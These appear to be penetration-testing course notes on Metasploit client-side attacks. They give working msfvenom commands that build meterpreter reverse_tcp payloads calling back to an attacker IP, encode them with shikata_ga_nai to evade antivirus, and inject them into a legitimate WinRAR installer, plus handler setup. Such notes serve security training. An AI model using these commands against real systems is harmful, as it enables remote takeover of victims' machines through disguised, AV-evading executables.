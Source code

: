 Simple <mark style="background: #FFF3A3A6;">Webserver to Transfer Files</mark>
+ `sudo python -m SimpleHTTPServer 80`

<mark style="background: #FF5582A6;">Handler</mark>
+ In msfconsole, will `use multi/handler`
  + will then `set payload PAYLOAD_GENERATED`

### Encoding Payloads With Msfvenom ###

+ Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection 
+ Most end user AV solutions utilize signature based detection in order to identify malicious files or executables
+ Can evade older signature based AV solutions by encoding the payloads 
+ Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature 

#### Shellcode ####
+ <mark style="background: #ADCCFFA6;">Shellcode</mark> (shell-code) is a piece of code typically used as payload for exploitation 
+ Gets its name from the term command shell, shellcode is a piece of code that provides an attacker with remote command shell on the target system

#### Encoding ####
+ Can view all encoders with `msfvenom --list encoders`
	+ The best being `x86/shikata_ga_nai` encoder which is Polymorphic or `cmd/powershell_base64` for power-shell
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.107 lport=6001 -i 10 -e x86/shikata_ga_nai -f exe > securitytutorials.exe`
	+ Where the `-e` is to specify encoding 
	+ `-i` specifies the number of iterations it will encode it 
		+ not much better after 10

### Injecting Payloads Into Windows Portable Executables ###

+ Will first find a legitimate portable executable 
	+ WinRAR setup file is one of the most popular 
		+ https://www.win-rar.com/download.html?&L=0
+ Then `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT:PORT -i 10 -e x86/shikata_ga_nai -f exe -x wrar602.exe > payloads/winrar.exe`
	+ `-x`: Specify a custom executable file to use as a template
	+ `-k`: Preserve the --template behavior and inject the payload as a new thread
		+ Very often does not work

### Automating Metasploit With Resource Scripts ###

#### Metasploit Resource Scripts ####
+ Metasploit resource scripts allow automation of repetitive tasks and commands 
+ Similar to batch script, can specify a set of Msfconsole commands that execute sequentially 
+ Can load the script with Msfconsole and automate the execution 
+ Can be used for multi-handlers as well as loading and executing payloads
